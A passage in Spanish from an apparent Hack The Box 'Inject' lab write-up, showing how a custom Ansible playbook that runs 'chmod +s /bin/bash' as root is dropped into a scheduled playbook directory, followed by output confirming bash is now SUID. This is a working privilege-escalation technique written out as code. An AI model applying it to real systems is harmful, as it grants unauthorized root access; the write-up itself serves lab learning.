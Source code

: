 Vamos a crear nuestro propio `.yml` bajo esa ruta basándonos en el siguiente ejemplo

```bash
bash-5.0$ cat playbook_1.yml 
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
bash-5.0$ 
```

![](/assets/images/htb-writeup-inject/web14.png)

```bash
bash-5.0$ cat pe.yml 
- hosts: localhost
  tasks:
  - name: Escalada de privilegios
    ansible.builtin.shell:
      chmod +s /bin/bash
    become: true
bash-5.0$ 
```

Ahora vamos a esperar a que se ejecute la tarea para que la **bash** sea **SUID**

```bash
bash-5.0$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
bash-5.0$ 
```
